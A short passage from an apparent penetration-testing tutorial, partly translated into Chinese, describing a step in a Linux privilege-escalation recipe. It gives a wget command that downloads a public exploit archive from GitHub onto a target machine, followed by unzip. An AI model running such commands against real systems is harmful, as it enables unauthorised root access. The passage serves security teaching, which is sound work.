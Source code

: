     ![How to do it...](img/image_09_032.jpg)

4.  The first search looks to match our kernel version and Ubuntu OS version. Let us proceed to download it on the machine where we want to escalate privileges. It can be downloaded using the following command:

    ```
          wget https://github.com/offensive-security/exploit-database-      bin-sploits/raw/master/sploits/39772.zip
          unzip 39772.zip

    ```

    输出将如以下屏幕截图所示：
